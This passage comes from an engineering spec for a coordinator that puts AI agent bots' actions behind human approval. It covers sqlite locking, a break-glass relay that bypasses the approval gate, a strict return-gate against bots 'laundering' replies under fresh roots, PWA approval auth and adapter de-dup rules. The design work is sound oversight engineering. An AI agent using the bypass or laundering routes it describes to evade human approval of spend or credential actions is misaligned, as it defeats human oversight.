- **6a instance lock** — **SHIPPED** as `coordinator.py`. Coordinator startup acquires an exclusive sqlite lock on `TASK_STATE_PATH` (SEV2-4 v6 fix). Second coordinator process refuses to start. Two decisions were made in the implementation and are recorded here because the spec left them open. **(1) An unreliable filesystem is a startup ABORT, not a warning.** On NFS, SMB/CIFS, overlayfs and FUSE a POSIX advisory lock does not reliably exclude, and the failure is silent — both coordinators start and nothing says so. The spec called this a "documented requirement"; documentation is not a control, and a boot-time warning is seen once and never again. `allow_unreliable_fs` is a keyword argument on the call rather than an env var, so overriding it is a decision somebody wrote down instead of a value inherited from a Compose file. **(2) An UNKNOWN filesystem is REFUSED.** `detect_filesystem` returns `None` where the platform cannot answer — unsupported platform, unreadable mount table, a gap in the parser — and unknown is treated as unreliable. An earlier revision allowed it, reasoning that refusing every platform with an unreadable mount table is worse than the risk. That was wrong for the same reason decision (1) is right: the guarantee this lock provides is exclusion, and a filesystem we cannot identify is one where the guarantee cannot be established. Starting anyway contradicts the sentence directly above it. The operator override is the documented way through, and it is a deliberate act rather than a default. **The filesystem is identified by DEVICE, not by path.** A mount point is not a unique mount identity: Linux stacks mounts on one path and only the topmost is visible, which is why `mountinfo` carries `major:minor` at all. Matching by path alone can return the HIDDEN entry — an ext4 mount underneath an NFS overmount reads as a confidently safe answer and bypasses the refusal, which is worse than unknown now that unknown refuses. The target's own `st_dev` selects the candidate mounts; path specificity only decides among mounts that genuinely back the file. A known device that no mount claims, and an equal-specificity tie whose entries disagree, both resolve to **unknown** rather than a guess. **Mount points are decoded before comparison.** The kernel escapes a space in a mount point as `\040`; comparing a decoded path against the raw token never matches, so the specific mount is skipped, `/` wins the longest-prefix contest, and an NFS-backed state directory is reported as the root filesystem's type. The refusal was bypassable by a space in a directory name. `/proc/self/mountinfo` is preferred over `/proc/mounts` because it is namespace-correct inside a container. Only `database is locked`/`busy` reports `coordinator_already_running`; every other sqlite fault gets its own reason, because blaming a disk error on a second coordinator sends an operator hunting a process that does not exist. **`YUGO_MODE`** resolves `bot` (default, blank and unset) or `coordinator`; an unrecognised value aborts rather than falling back to `bot` — the same silent-downgrade refusal as `SANDBOX_MODE` in v0.4e, and for the same reason: an operator who wrote `YUGO_MODE=coord` would otherwise get a process that looks healthy, heartbeats, and forwards nothing. Wiring it into `bot.py` startup is **6b**. NFS/overlay-fs caveat: sqlite exclusive locks are unreliable on NFS and non-guaranteed on some overlay-fs configurations (SEV3 v7 addition); documented requirement to run `TASK_STATE_PATH` on a local filesystem (ext4/xfs/btrfs/apfs). POSIX locks die with the process, so a crashed coordinator's lock releases automatically.
- **6a liveness + supervisor (S2-C v7, updated v8)** — coordinator is a HARD SPOF for `.request` flow post-FB-3. Requirements:
  - Coordinator emits a heartbeat on `fleet.coordinator.status` (v8: subject renamed per S2-ii; falls in STA authz family) every `COORDINATOR_HEARTBEAT_MS` (default 5000).
  - Tap alerts to `COORDINATOR_CHANNEL_ID` (and paging channel if configured) when heartbeat silent for `>3× heartbeat_ms`.
  - Coordinator container runs under supervisor (systemd, k8s, docker restart:always) with auto-restart on crash.
  - **Break-glass STANDBY RELAY (SEV1-C v8, hardened v10 per SEV1-1 fix — commented-out-by-default):** a dedicated `break-glass` NATS user with permissions `subscribe fleet.*.request` + `publish fleet.*.inbox`. Standby relay is a headless process (10-line `nats sub / nats pub` shell loop OR a minimal Bun/Python one-file container) that pulls `.request` and republishes to `.inbox` forward-only, ack-after-forward.
    - **The `break-glass` account is COMMENTED-OUT by default in `nats.conf`** — physically cannot authenticate while commented. This replaces v9's paper-only "alert on connect" claim (which was unimplementable: NATS auth events only surface on `$SYS.>` subjects that no component in the architecture has grant to subscribe, AND during legitimate use the coord is DOWN so can't emit alerts anyway). "Any connection while disabled" is now STRUCTURALLY impossible, not a control that needs plumbing.
    - **Runbook (`/ops/break-glass-relay.sh`) — 4 steps, published in-repo:**
      1. Operator SSH's to NATS host, uncomments `break-glass` block in `nats.conf`, runs `nats-server --signal reload` (SIGHUP; live reload, no restart needed).
      2. Operator starts standby relay process (script provided): pulls `.request`, publishes `.inbox`, ack-after-forward, uses envelope-id de-dup store at `/var/lib/yugo/break-glass-dedup.sqlite`.
      3. Coord recovers — operator stops relay process.
      4. **MANDATORY closing step: operator re-comments `break-glass` block in `nats.conf`, runs `nats-server --signal reload` again.** Rotation-OUT is not optional — leaving the account enabled after incident close is treated as an incident-response protocol violation.
    - **`--close` enforcement (SEV2-1 v11 fix):** the relay script traps SIGINT/SIGTERM/exit and **automatically runs its `--close` procedure** on shutdown; refuses silent termination if the `break-glass` block is still uncommented. Operator can override with `--force-orphan` (deliberate, audits loudly) but the happy path re-comments automatically.
    - **Independent watchdog (SEV2-1 v11, fixed v12 pattern + state):** a cron on the NATS host runs `grep -E '^[^#]*break-glass' /etc/nats/nats.conf` every 5 minutes (v12 SEV2-1 fix — v11's `users.*break-glass` pattern couldn't match because NATS user entries live on separate lines from the `users:` header; correct pattern is any uncommented line containing the token). Cron writes a "first-seen-uncommented" ISO-8601 timestamp to `/var/lib/yugo/break-glass-watchdog.state` on first match; clears the state file when the token disappears. If the state file's timestamp is >1h old, alerts to a Discord webhook (coord-independent — webhook does NOT depend on coord being up) AND appends to `/var/lib/yugo/break-glass-log.jsonl`. State file is what lets a stateless cron compute a duration threshold. Runbook trap + watchdog together = enabled-and-forgotten becomes structurally visible within ~65 minutes worst-case, acceptable trade given credentials are offline-custody.
    - **Runbook scope disclaimer (SEV3 v11):** the break-glass relay **BYPASSES HITL entirely** — every envelope forwarded ungated. This is acceptable during coord outage because envelopes are queuing durably in `.request` JetStream anyway (7-day retention per FB-1). **DO NOT open break-glass if the incident is suspected bot compromise** — you're removing the only gate against bot-originated `spend`/`credential_touch` envelopes flowing. In that case, leave coord down and address the compromise first.
    - Adapters are unchanged (still subscribing `.inbox` per FB-3), so relay's `.inbox` publishes ARE received.
    - Coord's durable resumes from where it left off (JetStream re-plays un-acked messages; envelope-id de-dup on both sides handles overlap).
    - Break-glass user has NO publish rights on `fleet.coordinator.status` — tap's outage alert stays live so humans know break-glass mode is on.
    - **Credential custody:** `break-glass` NATS user credentials MUST be stored OFFLINE (paper backup, password manager, hardware key) — NEVER on bot hosts, NEVER in coord's `.env`, NEVER in Docker Compose files. Compromise of a bot host or coord host does not expose break-glass credentials.
    - **Post-incident audit:** every runbook execution appends to `/var/lib/yugo/break-glass-log.jsonl` on the NATS host — timestamp, operator identity (SSH principal), start time, close time, relay process PID, envelope count forwarded during window. Human-reviewable after every incident.
- **6b** — coordinator process boilerplate + `.env` shape + sqlite state store (mandatory)
- **6c** — read-only Discord mirror to `COORDINATOR_CHANNEL_ID` (distinct from tap's channel; format includes task/baton context). PWA scaffold work moves to dedicated slices 7c1/7c2/7c3 (SEV1-B v8 fix — v7's PWA-as-parenthetical was unspecced).
- **6d** — task/baton visibility surface — per-bot state derived from `fleet.*.status` heartbeats + baton frames observed on `fleet.*.request` (which now carries both new requests and replies, distinguished by `in_reply_to`)
- **6e** — coordinator persona file + Discord human command surface (accept slash-commands like `/yugo tasks`, `/yugo bot vec`, etc.)

`6a → 6b → 6c/6d/6e`. Depends on **v0.5** (engine adapters emitting envelopes coordinator will observe).

### v0.7 — HITL

Requires **JetStream migration FB-1..FB-3 landed** (all target adapters flipped, `.request` subscribes revoked). FB-4 (GATE update) is parallel and blocks v1.0, not v0.7.

- **7a** — policy file schema + evaluator (per §7A: task classes, bots, origin/hops axes, precedence ordered list, **classless short-circuit to `global_default` per §7A.3**, YAML parsing, atomic-write of `overrides.yaml` sidecar, keep-last-good SIGHUP). `POLICY_FILE` is still optional at 7a because coordinator is still forwarding-only.
- **7b** — coordinator starts HOLDING envelopes per policy **AND ships the Discord human-prompt surface AND minimal expiry in the same slice** (S2-2 v6 fix: no wedge window where holds pile up with no approve path). `POLICY_FILE` becomes REQUIRED at 7b — coordinator fail-closed startup abort if missing. Approve/Reject buttons only (Redirect hidden until 7d2). **Decision authorization (SEV1-1 v12 fix):** every HITL decision interaction — Approve/Reject on Discord AND PWA — requires the interactor's Discord ID in `admins:` (Discord surface) OR `human_id.admin: true` on the PWA session. Non-admin clicks REJECTED with ephemeral reply + audit line (same code path as §7A.5 command authz). Applies to Redirect at 7d2 identically. Same trust boundary as override commands; the only surface without it in prior drafts was the strictly-more-sensitive one, which was the bug. **Invariants:**
  - Coordinator MUST NOT ack the JetStream message until envelope is forwarded, dropped, or redirected. Ack-before-decision = silent envelope loss on coordinator crash.
  - JetStream consumer MUST be configured with **`ack_wait` greater than the largest `held_timeout_ms` ACTUALLY CONFIGURED in `POLICY_FILE`** — the maximum over the per-class overrides present, or `HELD_TIMEOUT_MS` if no class overrides it (coordinator asserts this at startup, refuses to run if the relation does not hold). At 7e a per-class `held_timeout_ms` of 3600000 with `HELD_TIMEOUT_MS` at 900000 and `ack_wait` at 1200000 must FAIL that assertion; comparing against the default alone lets it pass and still produce a hold that outlives `ack_wait`. **This deliberately does NOT reuse the `max_age` rule's phrase "the largest hold timeout any class CAN configure", which an earlier revision copied without copying the sentence that defines it.** That phrase is a *ceiling* — the `max_age` rule caps overrides at `max_age − 24h`, so with FB-1's `max_age: 7d` it evaluates to **six days**, and `ack_wait > 6d` refuses to start on stock configuration. An operator who complied would then get one `AckProgress` heartbeat every three days and vacate the gate test that a hold outliving `ack_wait` is not redelivered. Two readings of one phrase, five orders of magnitude apart, in an assertion whose job is to refuse to run.
  - Coordinator emits `AckProgress` heartbeats every `ack_wait/2` on held messages to keep JetStream from redelivering mid-hold.
  - **These tests GATE 7b and are not deferrable (added v12.17).** `AckProgress` verification originally sat in FB-4 — but §15 states "FB-4 (GATE update) is parallel and blocks v1.0, not v0.7", so the test proving a 15-minute hold is not redelivered mid-decision was scheduled *after* the slice that starts holding. That permits HITL to ship with its central mechanism unverified. **Required before 7b merges**, each with a **named expected outcome** rather than a scenario, because a scenario without an invariant is a test the author has to invent:

| Scenario | The invariant it must assert |
| --- | --- |
| `AckProgress` on a hold longer than `ack_wait/2` | **At least one `AckProgress` is emitted, asserted by COUNTING heartbeats** — not by asserting no-redelivery. Control: an implementation that sends none must fail. **The no-redelivery form is unreachable and passed everything:** the startup rule above refuses any configuration where a hold timeout reaches `ack_wait`, so under a legal config the hold always expires before redelivery is due, and an implementation that never heartbeats satisfies "not redelivered" for free. Configuring the scenario the old wording described would stop the coordinator from starting. Exercise a hold past `ack_wait/2` — reachable, legal, and the interval at which a heartbeat is actually required |
| Coordinator restart mid-hold | The hold is re-materialized from sqlite with its absolute `expires_at` intact — not restarted, not extended |
| Restart after approve-but-before-forward | The forward is **retried with the SAME envelope id until PubAck, and the recipient executes it once — scoped to THIS envelope by §14's persistent de-dup, which is a claim about a de-dup store's behaviour and NOT a general exactly-once delivery claim** — per the retry rule in this section, NOT §7.2's. The control that trips: an implementation which remints the envelope id on retry MUST fail. **This row used to assert "exactly once"**, one screen above the row that correctly refuses exactly-once as unachievable by a coordinator outbox, and the crash-window row below which says the forward is published twice by design and the recipient's de-dup absorbs it. A correct implementation failed the gate it was meant to pass. **The citation was wrong in the more damaging direction too:** §7.2's only retry rule is that a retry is a new attempt with a NEW `action_id` — a different object and the opposite instruction — so a coder following the citation remints and double-executes, which is exactly what this section says defeats §14's de-dup |
| Forward-PubAck before original ack | Killing the coordinator between PubAck and ack redelivers the original, and the recipient's de-dup absorbs it. **Control: an implementation that acks before PubAck must fail** |
| Adapter crash during injection | **Exactly-once injection is not achievable and this row previously mandated it.** Marking de-dup *before* injection means a crash in between drops an envelope that never executed — silent loss, the exact failure this whole document is about. Marking *after* has the inverse duplicate window. Neither ordering is correct in isolation. **The honest guarantee is at-least-once injection with an idempotent session boundary keyed by envelope id**: the engine accepts the id and refuses to execute the same one twice. Where an engine cannot offer that, the residual **duplicate** window is documented and accepted — duplicate-on-uncertainty beats silent loss, always. **Both crash controls are required**, before and after injection; asserting one ordering as universally correct is what produced the error |
| Stream-limit under a full stream | Eviction of a held envelope is DETECTED and audited as `held_envelope_evicted`, never silently tolerated — the coordinator reconciles the persisted stream sequence against the stream every `COORDINATOR_HEARTBEAT_MS × 10`, and the control evicts the actual held sequence **`discard: old` evicts inside the server on publish, so a coordinator cannot observe pressure and stop another publisher before it happens** — an earlier draft required exactly that, which is not implementable; an after-the-fact alert is detection, not prevention. The resolution uses what this bullet itself establishes: **the coordinator's sqlite is the durable source of truth for a held envelope, not the stream.** (**§4.4 does NOT establish this and is no longer cited for it** — §4.4 says only that the sqlite store is mandatory once v0.6 lands, and "mandatory" is not the same claim as source-of-truth-relative-to-the-stream. §4.4 also did not change in v12.17, so the version tag implied an edit that never happened.) Stream eviction of a held message is therefore **detected and audited but is not data loss** — the coordinator still holds the envelope and can still forward it. Separately, the limits behave differently and must not be conflated. |

**Age.** An earlier draft claimed age was "guarded by the `max_age ≫ held_timeout_ms` invariant". That invariant appears nowhere else in this document and `≫` is not an executable relation. Replaced with a numeric, **startup-validated** rule: `max_age` MUST exceed the LARGEST hold timeout any class can configure by at least **24 hours**, and the coordinator asserts this at startup and refuses to run otherwise. **7e's per-class expiry overrides are capped accordingly** — no class may configure a hold timeout above `max_age − 24h`. With FB-1's 7d and a 15-minute default the margin is enormous; the point is that a later config change cannot silently erase it.

**Count.** The sqlite copy is the durable source of truth, so eviction is recoverable. But "detected and audited" is not a mechanism: **`discard: old` happens inside JetStream and the coordinator receives no eviction event tied to its sqlite row.** So: the stream sequence is **persisted with the hold**, and the coordinator reconciles its held sequences against stream state at a defined cadence — every `COORDINATOR_HEARTBEAT_MS × 10` — emitting the named incident `held_envelope_evicted` when a held sequence is gone. Control: evict the **actual held sequence** and observe that named incident, not a generic pressure alert.

**Bytes.** Removed from this contract. **FB-1 declares no byte limit** (`max_age`, `max_msgs_per_subject`, `discard`), so a bytes clause here described a limit that does not exist. If a byte limit is ever added to FB-1, it comes back with its own semantics.

Controls: an eviction that passes unaudited must fail; recovery of an evicted-but-held envelope from sqlite must be exercised; and the startup assertion must refuse a `max_age` that does not clear the largest configurable hold timeout by 24h

**Every one needs a control that trips** — an implementation that never holds at all passes a hold test that only asserts "no redelivery".
  - `max_ack_pending` sized to `expected_peak_hold_count * safety_factor`; coordinator alerts on `pending_count > 0.8 * max_ack_pending`. Backpressure kicks in above ceiling.
  - **Strict return-gate pair-scoped window-hold (SEV1-2 v7 fix, corrected v9 to match §7A.1 pair-scoping):** while ANY strict root R→B is outstanding, coordinator holds ALL envelopes B→R regardless of `root_id` or `payload.class`. Recipient cannot launder by publishing under a fresh root. Fresh-root B→R traffic inside window is audit-flagged `suspicious_correlation_gap`. Window OPENS when the original R→B envelope is forwarded (not when it's approved) and CLOSES on whichever comes first: (a) coordinator sees a return envelope from B→R and evaluates it, (b) `STRICT_WINDOW_TIMEOUT_MS` elapses (default 900000 = 15min; auditable timeout event as `strict_window_timeout`). Late envelopes carrying `in_reply_to` for a timed-out strict root are held + flagged `late_strict_return` (S2-2 v9 fix). Full spec: §7A.1.
  - Minimal expiry: `HELD_TIMEOUT_MS` default **900000ms** (matches §5, v10 SEV2-1 reconcile), `EXPIRY_POLICY` default `default_reject`. Full per-class expiry override deferred to 7e.
  - **Hold state is DURABLE at 7b, not at 7f (added v12.17).** §4.4 already makes the sqlite store mandatory because "coordinator crash mid-hold with in-memory state means held envelopes silently vanish" — but 7b starts holding while 7f adds re-materialization, and the 7f note accepts a window where a crash re-triggers the human prompt. **A slice that can be deployed independently cannot defer its own correctness to a later one.** **This carries the READ side as well as the write side:** loading the store on restart, re-materializing held envelopes with `expires_at` intact, and reconciling against already-decided envelopes so no human is re-prompted are 7b responsibilities, moved out of 7f in this version. Persisting a row nobody reads back on restart is not durability, and 7b's own gate test asserts the re-materialization. Written to sqlite in 7b in **TWO transactions, not one**:

    1. **At hold time, and committed BEFORE the human prompt is emitted:** the full envelope, absolute `held_at` and `expires_at` (absolute, not a remaining-duration — a duration restarts with the process and silently extends every hold across a restart), the policy snapshot or its hash, and the prompt identity.
    2. **At decision time:** the decision and the forwarding outbox record, together. **The human decision and the outbound record commit together or neither commits.** A crash after "approved" but before forwarding must retry.

    **This was one transaction and could not work.** That list mixes hold-time facts with decision-time facts and binds them to a transaction that by definition cannot commit until a decision exists — so a literal implementation buffers the hold in memory, prompts, and writes everything on click. A crash during the 15-minute hold then leaves no row at all: the envelope is redelivered per the ack rule above and re-held with a **fresh** `expires_at`, which is precisely the "duration restarts with the process and silently extends every hold across a restart" that the same sentence forbids. The gate test — restart mid-hold, re-materialize from sqlite with `expires_at` intact — assumes the two-transaction implementation, and the normative sentence is the one that gets built from.

**But transaction 2 does NOT close the window on the other side, and saying it did was wrong.** (Transaction 2 is the decision-time write defined above; "that transaction" lost its unique referent once the hold was split in two.) A publish can reach JetStream and the process can die before the PubAck is recorded and the outbox row marked sent. Recovery cannot distinguish "never published" from "published, ack lost", so it MUST retry — the ambiguity is unavoidable. What makes the retry safe is stated here rather than left implied:

| Rule | Why |
| --- | --- |
| A retry MUST publish the **byte-equivalent** outbound envelope with the **SAME envelope id** as the attempt it is retrying | Reminting an id on retry defeats §14's persistent envelope-id de-dup and turns one approval into two executions. The id is the idempotency key; a new one is a new command |
| The original inbound message is acked only **after** PubAck for the forward | Ack-before-PubAck loses the envelope if the publish never landed |
| **The recipient's persistent envelope-id de-dup is the execution-once boundary** — not the coordinator's outbox, which can only ever achieve at-least-once | Stating it anywhere else invites an implementation that tries to make the sender exactly-once, which is not achievable across a crash |
| **Reject and expiry: the decision and its reason commit transactionally; the ack happens AFTER and is at-least-once** | An earlier draft said the decision "and the ack of the original are one transaction". **A JetStream ack is an external broker operation and cannot join a sqlite transaction** — that is the same distributed-commit claim the row above correctly refuses for publish/PubAck, and I made it two rows later. On crash or replay the coordinator MUST recognise the already-committed reject/expiry from its own state, **not re-prompt a human for an envelope already decided**, and retry the ack. Idempotent terminal-state recovery, not atomicity 7f keeps the richer restart UX and the duplicate-prompt handling; it no longer carries the property that makes 7b safe. |

- **7c1 — PWA auth surface (SEV1-B v8, hardened v9 per SEV1-2 fix).** Coordinator exposes an HTTPS endpoint at `$COORDINATOR_HTTP_ADDR` (default `127.0.0.1:8443`, deploy behind reverse-proxy with TLS termination). Auth model: coord issues session tokens bound to a coord-owned `human_id`. Bootstrap methods (pluggable):
  - **Discord slash-command + QR** (v0.7.7c1 default; v11 SEV1-1 fix — restores v9's device-possession-proof design that v10 accidentally regressed by putting the confirm-code in the ephemeral): `/yugo pwa install` in `COORDINATOR_CHANNEL_ID` responds with a Discord **ephemeral interaction response** (`flags: EPHEMERAL`) visible ONLY to the invoking user; never appears in channel history for any other member. **Response contains a QR code image AND a paste-URL — NEVER the confirm-code.** Signed install URL has a **10-minute TTL** (`PWA_INSTALL_URL_TTL_SEC` default 600) AND IS **SINGLE-USE** by design.
    - **Idempotent reload for possessing device (SEV3-1 v12 fix):** first URL exchange sets a device-scoped session cookie tied to the pending session. Subsequent GETs from the same device (browser refresh, back/forward) re-render the SAME pending session's install page and code — idempotent, no alert. Only cookie-less reuse (a different device) is treated as attempted interception.
    - **Reuse alert (SEV2-2 v12 fix — v11's "ephemeral alert" was unimplementable because Discord ephemerals require an interaction context which an HTTP GET is not):** cookie-less reuse of a consumed URL posts a content-free mention to `COORDINATOR_CHANNEL_ID` (`@<invoker> — your PWA install URL was reused after consumption. If this wasn't you, re-run /yugo pwa install`). Visible to other admins as tamper visibility; safe because it carries no code, no URL, and no envelope content.
    - Primary flow: user scans QR from their phone → opens URL → install page loads on their device and displays a 6-digit confirm-code generated server-side per pending session → user echoes via `/yugo pwa confirm <code>` in `COORDINATOR_CHANNEL_ID` → token issued and stored in IndexedDB. The confirm-code echo PROVES the invoker possesses the device that opened the URL — a leaked URL opened on an attacker's device shows a code the victim never sees.
    - Fallback for users who can't scan: paste URL manually on their phone → same install-page confirm-code flow.
    - **Identity binding invariant (SEV2-3 v10, hardened v11):** coord verifies that the `/yugo pwa confirm` invoker's Discord ID EQUALS the `/yugo pwa install` invoker's Discord ID AND the code matches the pending session created by the URL opened on this attempt (single-use URL means at most one pending session per install). Mismatch on either check = pairing rejected with audit line. No path exists to bind a token to a `human_id` other than the install invoker's actively-echoing on their possessed device.
    - **Issuance notice (v11 SEV1-1 fix):** immediately after every successful token issuance, coord sends the install invoker an ephemeral Discord message: "PWA session issued at HH:MM from IP=X, UA=Y. If this wasn't you, run `/yugo pwa revoke <human_id>` now." Compromise-visible in real time.
    - Every token issuance writes an audit line with `human_id`, Discord ID, redeeming IP, User-Agent, bootstrap method (always `qr_confirm` in v11 — QR and paste both terminate at the confirm-code echo).
  - **Magic-link email** (v0.8+): coord admin issues email link via CLI or admin PWA. Same TTL + audit rules.
  - **WebAuthn** (v0.8+): hardware key bootstrap for extra-secure environments.

  Session tokens expire after `PWA_SESSION_MAX_AGE_DAYS` (default 30); refresh on active use. Every approve/reject/redirect from PWA carries the token → coord verifies + writes `human_id` to audit. **Coord does not require Discord to function** — magic-link and WebAuthn paths let coord+PWA run without any Discord connection.
  - **`/yugo pwa revoke <human_id>` command (S2-7 v9, spec-hardened v10 per SEV2-4)** — invalidates all sessions for the named human_id (lost device, key rotation). Rules:
    - **Discord-command only** (never PWA-issuable): revoke is issued as `/yugo pwa revoke` slash-command in `COORDINATOR_CHANNEL_ID`. Prevents a stolen PWA session from being weaponized to mass-revoke other sessions.
    - **Self OR admin** invoker: any human_id may revoke ITS OWN sessions; admins may revoke any human_id.
    - **Admins block schema in POLICY_FILE** (SEV2-4 v10 fix):
      ```yaml
      admins:
        - discord_id: "100000000000000001"   # fernando
        - discord_id: "988110987654321098"   # future admin
      ```
      Keyed by Discord ID (not human_id) because human_ids don't exist until first install; Discord IDs are stable and known ahead of time. First admin bootstrap = Fernando adds his own Discord ID to POLICY_FILE at coord initial deploy. On first install, coord verifies Discord ID matches an entry under `admins:` and marks the resulting human_id as `admin: true`.

      **Note on "self OR admin" (SEV3-3 v12 clarification):** since `/yugo pwa install` is admin-gated (per §7A.5 command authz), every human_id at 7c1 is admin-created — non-admin human_ids DO NOT exist in v0.7. The self/admin branch is dead code at 7c1 but stays in the spec because v0.8's magic-link + WebAuthn bootstrap paths WILL admit non-admin humans; the branch exists so those slices don't need to re-open the revoke authorization surface.
    - Every revoke issuance audits `revoker.human_id`, `target.human_id`, timestamp, reason (optional command arg).
- **7c2 — PWA read-only shell.** Discord mirror still primary; PWA is a read-only mirror at 7c2. Shows fleet, tasks, batons, broadcasts. **Read-only is enforced server-side, not just UI (S2-6 v9 fix)**: the coordinator's PWA API has NO approve/reject/redirect HTTP routes at 7c2 (they don't exist at all — not "return 403"). Routes ship in 7c3. Client attempting POST to a nonexistent route gets 404. Ships as installable PWA (manifest + service worker + web push permission) with icon + branding. Standard PWA install flow on Android/desktop Chrome.
- **7c3 — PWA approval surface (unblocks HITL from mobile).** Approve/Reject buttons live in the PWA, tied to `human_id` via session token. Web push carries CONTENT-FREE notifications ("You have 1 held envelope — tap to open") — envelope content NEVER in push payload (defense-in-depth beyond web-push's own RFC 8291 encryption to Google/Mozilla push services). Discord mirror still emits identical prompts as fallback surface (redundant, both work). POLICY_FILE stays REQUIRED from 7b (per §5) — this slice does not change that.
- **7d1** — approve → forward to `.inbox` + audit; reject → drop + audit already ship in 7b (via Discord) and 7c3 (via PWA). Slice now folds into 7b/7c3 at implementation time.
- **7d2** — redirect → modified envelope with `modified_by` marker + audit. Requires payload editor UI (Discord modal or inline editor). Adds `Redirect` button to prompt.
- **7e** — full per-class expiry override + configurable per-envelope-class `held_timeout_ms`; YAML `expiry:` block wins over env vars.
- **7f** — coordinator crash-recovery, RESIDUAL ONLY: JetStream un-acked messages redelivered on reconnect, and the richer restart UX. **Startup recovery of held envelopes is NOT here any more — it moved to 7b (v12.17), and the old note permitting duplicate prompts between the two slices is withdrawn.** Loading the sqlite store on restart, re-materializing held envelopes with their absolute `expires_at`, and reconciling against already-decided envelopes so a human is not re-prompted are all **7b responsibilities**. **Persisting the row at 7b was necessary and not sufficient:** a 7b coordinator that writes a hold and cannot read it back on restart still loses the hold, so 7b's own gate test — "restart mid-hold, re-materialized from sqlite with `expires_at` intact" — was unsatisfiable while the reading half sat two slices away. A slice cannot gate on a behaviour it does not contain. Duplicates by envelope-id are still handled via `$YUGO_COORDINATOR_DEDUP_PATH`.
- **7g** — override commands (`/yugo mode`, `/yugo lock/unlock`, `/yugo freeze/unfreeze`, `/yugo policy show|reload`) per §7A.5. Writes to `overrides.yaml` sidecar (NOT the human-owned POLICY_FILE — S2-5 v6 fix), audits change, applies via SIGHUP or file-watch. Freeze un-overridable except by unfreeze (enforced at command layer AND override-sort layer). **Expired-not-yet-culled entries skipped at eval time** (SEV3 fix), so a stale entry can never fire between expiry and next cull sweep.

`7a → 7b → 7d2 → 7e → 7f`. `7g` can land in parallel to `7d2/7e/7f` once `7a` merges. `7d1` folds into `7b` (kept as a slice label for backward-compat with review notes).

### v1.0 — stable

Bug polish, CI matrix, published container images, docs, LICENSE finalized, engine adapter conformance test suite (each of 5b/5c/5d passes).

### Dependency graph (visual)



### Owner mapping (initial pass)

| Slice | Owner |
| --- | --- |
| v0.2a, v0.2b | Vec |
| v0.3a–v0.3e | Vec |
| v0.4a–v0.4e | Vec (or Chis if free) |
| v0.5a, v0.5b, v0.5c | Vec (5c already merged as claude-discord PR #22) |
| v0.5d | Vec + external hermes-agent expertise |
| FB-1..FB-4 | Vec (fleet-bus specialist) |
| v0.6a–v0.6e | Vec (or split with Chis on 6d/6e) |
| v0.7a, v0.7b, v0.7d2, v0.7e, v0.7f, v0.7g | Vec (7d2 payload editor + 7g override commands natural handoff candidates to Chis) |
| v0.7c1, v0.7c2, v0.7c3 (PWA slices) | Vec + PWA-frontend specialist (SvelteKit stack per Luna rec) — Chis/Myc if free for c2/c3 UI work |

**Vec-bottleneck note:** Vec appears on nearly every slice. Mitigations: v0.4b–e are mechanical enough for Chis when free; v0.6d/e are surface work suitable for Myc or Chis; v0.7d2 is UI-heavy and v0.7g is command surface — both good handoffs. Coordinator opens more parallelism post-v0.5 once the adapter Protocol lets multiple engines join without touching yugo core.

## 14 — Engine plugin interface (v0.5)

Each engine adapter is a small module that translates between:
- The engine's native message intake (Claude Code plugin's `mcp.notification`, codex-container's `_ask()`, hermes-agent's session-input path, yugo native harness's `on_bus_envelope`)
- Fleet-bus envelope publish/subscribe with baton field preservation

**Interface contract (Python for reference; each engine implements in its own language):**

```python
class EngineAdapter(Protocol):
    """A per-engine adapter that lets an agent join fleet-bus and coordinator."""

    async def start(self, *, bot_name: str, on_envelope: Callable[[Envelope], None]) -> None:
        """Connect to NATS as bot_name.

        MUST subscribe to fleet.<bot_name>.inbox as a DURABLE JetStream consumer.
        Consumer name convention: "yugo-<bot_name>-inbox".

        DeliverPolicy rule (SEV1-3 v7 fix):
          - INITIAL creation (durable does not yet exist server-side): DeliverPolicy=New.
            Skip historical backlog to prevent replaying prod_op/spend on adapter
            flip or first deploy.
          - RE-CREATION (durable existed previously but was deleted via `nats consumer rm`,
            container-rebuild losing consumer-info-cache, JetStream storage rebuild,
            or bot rename): DeliverPolicy=All. Do NOT re-skip. Persistent de-dup
            store (below) filters what has already been processed. This prevents
            silent loss of approved-and-forwarded envelopes during the deletion window.
          - Adapter detects "initial vs re-creation" by checking its OWN de-dup store:
            empty = initial; populated = re-creation. This is deterministic and does
            not require server-side state.

        MUST also subscribe to .status + fleet.broadcast.> (core-NATS, no
        durability needed).

        MUST maintain a PERSISTENT envelope-id de-dup store (sqlite or similar,
        at $YUGO_DEDUP_STORE_PATH). Every incoming envelope's id is checked
        against the store; already-seen envelopes are ACKed and dropped without
        invoking on_envelope. Store retention default is 8 days (must be ≥ the
        JetStream stream max_age of 7d per FB-1).

        INITIALIZED-AT MARKER (S2-i v8, atomicity hardened v9 S2-5):
        the store MUST hold a special `_initialized_at` marker row exempt from
        the retention cull. Presence of this marker (NOT row count) distinguishes
        initial vs re-creation for the DeliverPolicy decision above. Row count
        can be zero on a legitimately quiet bot after retention culls historical
        rows; marker row is stable for the life of the store file.

        ATOMICITY: the marker MUST be written in the SAME sqlite transaction
        that creates the store schema. Non-transactional creation (crash between
        table create + marker insert) is not permitted. Adapter startup checks:
          - store file does not exist          → INITIAL: create schema + marker in one transaction, DeliverPolicy=New
          - store file exists, marker present  → RE-CREATION: DeliverPolicy=All
          - store file exists, marker ABSENT   → FAIL-LOUD ABORT: log error,
            refuse to start. Marker-absent = ops truncation, cleanup script bug,
            or hand-crafted-store — all cases where silent New would drop
            approved holds. Operator intervention required.
            RECOVERY PROCEDURE (SEV2-5 v10, three-way v11 per SEV2-3):
            operator runs `yugo dedup-recover --store <path> --deliver-policy
            <all|new|since:<ts>> --acknowledge-replay-risk`. Command inspects
            the store, reports last known envelope timestamp (if any rows
            survive), requires explicit --deliver-policy choice (no default),
            re-stamps marker with current UTC + operator identity + chosen
            policy. Bot may then start normally.
            Policy options:
              `all`        — replay full JetStream backlog. Risk: mass
                             re-execution of prod_op/spend envelopes older
                             than surviving dedup rows. Use ONLY when the
                             store file is young AND the fleet workload is
                             idempotent-safe.
              `new`        — skip backlog entirely. Risk: silent drop of any
                             approved holds in-flight during outage window
                             (typically minutes).
              `since:<ts>` — replay from ISO-8601 timestamp using JetStream
                             DeliverByStartTime. Recommended default when the
                             store had rows before truncation: seed <ts> from
                             the last surviving row timestamp (command prints
                             it) or from the coordinator's hitl-audit.jsonl
                             forward records.
            Heuristic: **prefer `since:<ts>` or `new` after truncation; `all`
            only when store is young AND fleet idempotent-safe.**
          - store restored from backup         → OPERATOR MUST review dedup
            retention vs stream max_age before start. Documented as forbidden
            without review.

        BROADCAST HANDLING (SEV1-4 v7 fix, v8 corrected): envelopes on
